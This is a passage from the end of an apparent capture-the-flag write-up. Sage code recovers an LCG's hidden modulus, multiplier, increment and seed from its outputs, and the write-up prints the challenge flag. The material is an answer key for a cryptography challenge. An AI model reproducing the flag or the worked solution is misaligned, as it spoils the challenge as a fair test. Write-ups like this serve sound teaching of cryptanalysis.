Q = (s4 - s3) * x**5 + (s2 - s3) * x**4 + (s4 - s3) * x + (s4 - s5)
S = (s5 - s4) * x**6 + (s3 - s4) * x**5 + (s5 - s4) * x + (s5 - s6)

R1 = P.resultant(Q)
R2 = Q.resultant(S)

m_candidate = abs(gcd(R1, R2))
factors = factor(m_candidate)
m = max(f[0] for f in factors if f[0].bit_length() > 256)
print(f"{m = }")

R_m = PolynomialRing(GF(m), "x_m")
x_m = R_m.gen()
g = gcd(R_m(P), R_m(Q))
a = int(-g.constant_coefficient())
print(f"{a = }")

T2 = (s2 - pow(a, 2, m) * s1) % m
c = (T2 * pow(a + 1, -1, m)) % m
print(f"{c = }")

a_inv = pow(a, -1, m)
s0 = int(((s1 - c) * a_inv) % m)
print(f"{s0 = }")

flag = long_to_bytes(s0).decode()
print(f"FLAG: {flag}")
```

</Details>



**FLAG:** `amateursCTF{w0w_such_cr3ativ3_lcG_ch4ll3ngE}`

還好數學告訴我們只要抽幾百次，不然就被 flag 嗆了。
